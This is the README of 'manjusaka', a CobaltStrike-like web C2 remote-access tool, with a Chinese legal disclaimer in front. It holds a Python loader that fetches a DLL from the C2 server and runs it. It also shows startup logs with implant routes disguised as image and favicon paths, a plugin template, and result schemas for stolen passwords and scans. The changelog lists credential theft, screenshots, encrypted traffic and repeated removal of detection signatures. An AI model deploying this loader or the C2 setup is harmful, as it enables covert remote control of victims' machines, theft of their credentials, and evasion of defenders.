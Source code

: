 
# 免责声明 
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。



# manjusaka
牛屎花  一款基于WEB界面的仿CobaltStrike C2远控 

##系统架构： ![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.jpg)

## 使用方法
```bash
[root@devops nps]# ./manjusaka
[NPS] 2022/09/14 15:57:21 初始用户: manjusaka  密码: ZbFCa2L2LRd5
[NPS] 2022/09/14 15:57:21 创建项目: 公共项目 没有归属的npc放在这个项目里面
[NPS] 2022/09/14 15:57:21 监听项目路由: VHOS5vqN
[NPS] 2022/09/14 15:57:21 NPS监听地址 :3200
[NPS] 2022/09/14 15:57:21 NPU后台地址 : manjusaka
[NPS] 2022/09/14 15:57:21 NPC监听地址 :801
[NPS] 2022/09/14 15:57:21 NPC交互路由 : /:target/favicon.ico
[NPS] 2022/09/14 15:57:21 NPC下载路由 : /:target/assert/:sys/bg.jpg
[NPS] 2022/09/14 15:57:21 NPC文件路由 : /images/:fid/logo.png
```
则NPS访问地址为  http://192.168.93.217:3200/manjusaka 


1、创建项目，默认有一个公共项目，选择当前项目后 可在回传结果里面查看当前项目回传的信息

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.png)


2、根据项目 生成npc 可以直接使用exe或elf格式的npc。也可以使用其它语言加载npc母体 比如使用python加载npc
 
```python
import requests
from ctypes import cdll

res = requests.get("http://192.168.93.217:801/bq1iFEP2/assert/dll/bg.jpg")
with open("a.dll","wb") as f:
    f.write(res.content)

dll = cdll.LoadLibrary("a.dll")
dll.main()

```


![](https://github.com/YDHCUI/manjusaka/blob/mainimages/2.png)

3、npc上线，点选中该npc即可对其进行操作

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/3.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/4.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/5.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/6.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/7.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/8.png)


4、插件系统 生成dll/so插件, 以plug_name_nps.dll格式命名放到plugins文件夹下面 即可动态调用
插件开发示例, main传入插件运行参数 传出返回的内容值 
```rust
/* 
//./Cargo.toml
[lib]
path = "src/lib.rs"
crate-type = ["cdylib"]
*/

//src/lib.rs

use std::ffi::CStr;
use std::ffi::CString;
use std::os::raw::c_char;

#[no_mangle]
pub unsafe extern "C" fn main(args: *const c_char) -> *const c_char { 
    let r_str = CStr::from_ptr(args).to_str().unwrap();

    println!("plugin load args: {}", r_str);
    let c_str = format!("plugin return {}",r_str);

    CString::new(c_str).expect("CString failed").into_raw()
}

```
返回值匹配到如下protobuf格式后后将结果写入数据库

```protobuf
syntax = "proto3";

message PassResult{
    string username = 1;
    string password = 2;
    string passtype = 3;
    string passfrom = 4;
}

message PassScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

message PortResult{
    string host = 1;
    string port = 2;
    string proto = 3;
    string version = 4;
}
message PortScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}
message HttpResult{
    string proto = 1;
    string host = 2;
    string port = 3;
    string title = 4;
    string note = 5;
}
message HttpScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

```

 
## 更新

### v0.5
1、修复安全漏洞

2、开放NPC配置修改功能

3、上传文件流程优化

4、增加动态插件功能，可拓展更多功能 

5、去除特征、修复bug 


### v0.4
1、随机key 

2、去除特征、修复bug 

### v0.3
1、实现截屏、密码获取功能。(仅window) 

2、修复cmd界面不能黏贴的bug。 

3、修复项目不能暂停的bug。 

4、自动创建data文件夹。 


### v0.2
1、修改网络协议使流量加密。

2、加入本地文件上传下载功能。

3、修复shell界面位移bug。

### v0.1
1、实现基础远控功能。


## 交流
https://discord.gg/YMqeN5Qyk4
